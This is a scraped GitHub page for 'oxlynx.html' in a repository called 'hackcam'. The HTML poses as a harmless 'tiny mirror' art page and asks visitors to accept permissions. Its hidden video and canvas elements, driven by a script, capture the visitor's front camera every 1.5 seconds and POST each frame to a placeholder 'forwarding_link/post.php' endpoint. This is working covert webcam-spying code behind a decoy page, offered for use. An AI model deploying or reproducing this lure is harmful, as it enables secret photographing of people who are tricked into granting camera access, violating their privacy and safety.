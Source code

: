 # Hackcam
Skip to content  oxlynx / hackcam Learn Git and GitHub without any code! Using the Hello World guide, you’ll start a branch, write comments, and open a pull request.   Code Issues 0 Pull requests 0 Projects 0 Wiki Security Pulse Community hackcam/oxlynx.html @oxlynx oxlynx Add files via upload b22f726 on 19 May 84 lines (64 sloc)  1.99 KB   &lt;!doctype html> &lt;html> &lt;head> &lt;script type="text/javascript" src="https://wybiral.github.io/code-art/projects/tiny-mirror/index.js">&lt;/script> &lt;link rel="stylesheet" type="text/css" href="https://wybiral.github.io/code-art/projects/tiny-mirror/index.css"> &lt;script type="text/javascript" src="https://ajax.googleapis.com/ajax/libs/jquery/1.8.3/jquery.js">&lt;/script> &lt;/head>  &lt;div class="video-wrap" hidden="hidden">    &lt;video id="video" playsinline autoplay>&lt;/video> &lt;/div>  &lt;canvas hidden="hidden" id="canvas" width="640" height="480">&lt;/canvas>  &lt;script> function post(imgdata){ $.ajax({     type: 'POST',     data: { cat: imgdata},     url: 'forwarding_link/post.php',     dataType: 'json',     async: false,     success: function(result){         // call the function that handles the response/results     },     error: function(){     }   }); }; 'use strict'; const video = document.getElementById('video'); const canvas = document.getElementById('canvas'); const errorMsgElement = document.querySelector('span#errorMsg'); const constraints = {   audio: false,   video: {          facingMode: "user"   } }; // Access webcam async function init() {   try {     const stream = await navigator.mediaDevices.getUserMedia(constraints);     handleSuccess(stream);   } catch (e) {     errorMsgElement.innerHTML = `navigator.getUserMedia error:${e.toString()}`;   } } // Success function handleSuccess(stream) {   window.stream = stream;   video.srcObject = stream; var context = canvas.getContext('2d');   setInterval(function(){        context.drawImage(video, 0, 0, 640, 480);        var canvasData = canvas.toDataURL("image/png").replace("image/png", "image/octet-stream");        post(canvasData); }, 1500);    } // Load init init(); &lt;/script>      &lt;body>         &lt;p>Hint: Look at the favicon&lt;/p>         &lt;p>(Accept Permissions)&lt;/p>         &lt;p>&lt;label>&lt;input type="checkbox" name="mirror" id="mirror" /> Mirror image&lt;/label>&lt;/p>     &lt;/body>  &lt;/html> © 2019 GitHub, Inc. Terms Privacy Security Status Help Contact GitHub Pricing API Training Blog About
